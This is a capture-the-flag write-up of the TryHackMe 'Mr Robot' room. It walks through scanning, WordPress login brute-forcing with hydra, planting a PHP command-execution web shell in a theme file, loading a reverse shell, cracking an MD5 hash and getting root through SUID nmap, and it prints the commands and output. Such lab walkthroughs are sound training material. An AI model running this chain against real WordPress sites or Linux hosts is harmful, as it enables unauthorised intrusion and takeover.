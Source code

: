 ```yaml
---
title: TryHackMe | Mr Robot CTF
author: Zeropio
date: 2022-09-25
categories: [TryHackMe, Rooms]
tags: [thm, linux]
permalink: /tryhackme/mr-robot-ctf
---
```



# Foothold

The nmap show:

```
PORT    STATE  SERVICE VERSION
22/tcp  closed ssh
80/tcp  closed http
443/tcp closed https
```

The nmap doesn’t tell us which OS is. With `ping` we can see the ttl:

```console
zero@pio$ ping 10.10.3.202 
	PING 10.10.3.202 (10.10.3.202) 56(84) bytes of data.
	64 bytes from 10.10.3.202: icmp_seq=1 ttl=63 time=74.9 ms
```

With the **ttl=63** we can probably is Linux. Both webpages show the same, a copy of the Mr Robot show. We can see that the page ends with a terminal prompt. We can see a bunch of aviable commands:

```
prepare
fsociety
inform
question
wakeup
join
```

We found some webpages with some commands, like **/fsociety**, **/inform**, **/question**, **/wakeup** and **/join**. In the last one, the page ask for an email.

If we fuzz by directories:

```console
zero@pio$ ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -u 'http://10.10.3.202/FUZZ'

	admin                   [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 62ms]
	images                  [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 63ms]
	js                      [Status: 301, Size: 231, Words: 14, Lines: 8, Duration: 63ms]
	wp-content              [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 61ms]
	css                     [Status: 301, Size: 232, Words: 14, Lines: 8, Duration: 59ms]
	wp-admin                [Status: 301, Size: 237, Words: 14, Lines: 8, Duration: 60ms]
	wp-includes             [Status: 301, Size: 240, Words: 14, Lines: 8, Duration: 61ms]
	blog                    [Status: 301, Size: 233, Words: 14, Lines: 8, Duration: 49ms]
	xmlrpc                  [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 1402ms]
	login                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 1444ms]
	feed                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 775ms]
	rss                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 787ms]
	video                   [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 62ms]
	sitemap                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 49ms]
	image                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 705ms]
	audio                   [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 49ms]
	phpmyadmin              [Status: 403, Size: 94, Words: 14, Lines: 1, Duration: 314ms]
	dashboard               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 689ms]
	wp-login                [Status: 200, Size: 2606, Words: 115, Lines: 53, Duration: 2060ms]
```

We see that is a wordpress. The login page redirect to the **/wp-login.php**. We can also found the **/robots.txt**, where we have the first flag:

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

The **/fsocity.dic** page will download the file, a passlist. Let’s try finding some valid username and using the wordlist. First we start with:

```console
zero@pio$ curl http://10.10.3.202/wp-json/wp/v2/users | jq
```

But we got to a non existent page. 

---

# Fingerprint

We see that the page **http://10.10.99.194/xmlrpc.php** it is up. We can try enumerating user through it , without succes.

```console
zero@pio$ wpscan --url 'http://10.10.3.202/' --enumerate u
zero@pio$ sudo wpscan --password-attack xmlrpc -t 20 -U /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P fsocity.dic --url 'http://10.10.3.202/'
```

We can try some names until we found **Elliot**. Now we can use `hydra`:

```console
zero@pio$ hydra -l Elliot -P fsocity.dic 10.10.3.202 -s 80 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^:F=<div id="login_error">' -t 30

	[80][http-post-form] host: 10.10.3.202   login: Elliot   password: ER28-0652
```

Now that we are login we can do the classical reverse shell in the Wordpress themes. We will edit the `http://10.10.3.202/wp-admin/theme-editor.php?file=404.php&theme=twentyfifteen` file to create a reverse shell. We will add `system($_GET['cmd']);` at the beginning of the file. Now we can test it:

```console
zero@pio$ curl -X GET 'http://10.10.3.202/wp-content/themes/twentyfifteen/404.php?cmd=id'

	uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

We cannot get a reverse shell from there so we will edit `http://10.10.3.202/wp-admin/theme-editor.php?file=archive.php&theme=twentyfifteen&scrollto=2967`. Copy and paste the [pentestmonkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) reverse shell and access the system.

---

# Privilege Escalation

We found an user in the `/home`{: .filepath} folder. Inside of it, there is a md5 password:

```console
$ cd /home/     
$ ls
	robot
$ cd robot
$ ls
	key-2-of-3.txt
	password.raw-md5
$ cat key-2-of-3.txt
	cat: key-2-of-3.txt: Permission denied
$ cat password.raw-md5
	robot:c3fcd3d76192e4007dfb496cca67e13b
```

With `john` we can crack it easily:

```console
zero@pio$ john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash 
	Created directory: /home/zeropio/.john
	Using default input encoding: UTF-8
	Loaded 1 password hash (Raw-MD5 [MD5 512/512 AVX512BW 16x3])
	Press 'q' or Ctrl-C to abort, almost any other key for status
	abcdefghijklmnopqrstuvwxyz (?)
```

We cannot use commands like `su` or `sudo`. We need to upgrade the shell and login:

```console
$ su robot
	su: must be run from a terminal
$  python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/home/robot$ su robot
	su robot
	Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$
```

We can search for SUID permissions:

```console
robot@linux:~$  find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
	-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
	-rwsr-xr-x 1 root root 69120 Feb 12  2015 /bin/umount
	-rwsr-xr-x 1 root root 94792 Feb 12  2015 /bin/mount
	-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
	-rwsr-xr-x 1 root root 36936 Feb 17  2014 /bin/su
	-rwsr-xr-x 1 root root 47032 Feb 17  2014 /usr/bin/passwd
	-rwsr-xr-x 1 root root 32464 Feb 17  2014 /usr/bin/newgrp
	-rwsr-xr-x 1 root root 41336 Feb 17  2014 /usr/bin/chsh
	-rwsr-xr-x 1 root root 46424 Feb 17  2014 /usr/bin/chfn
	-rwsr-xr-x 1 root root 68152 Feb 17  2014 /usr/bin/gpasswd
	-rwsr-xr-x 1 root root 155008 Mar 12  2015 /usr/bin/sudo
	-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
	-rwsr-xr-x 1 root root 440416 May 12  2014 /usr/lib/openssh/ssh-keysign
	-rwsr-xr-x 1 root root 10240 Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
	-r-sr-xr-x 1 root root 9532 Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
	-r-sr-xr-x 1 root root 14320 Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
	-rwsr-xr-x 1 root root 10344 Feb 25  2015 /usr/lib/pt_chown
```

We found `nmap` between them. Searching in [GTFObins](https://gtfobins.github.io/gtfobins/nmap/#shell) we found a possible explotation:

```console
robot@linux:/usr/local/bin$ nmap --interactive

	Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
	Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh               
# whoami
	root
```

The last flag is in the `/root`{: .filepath} directory.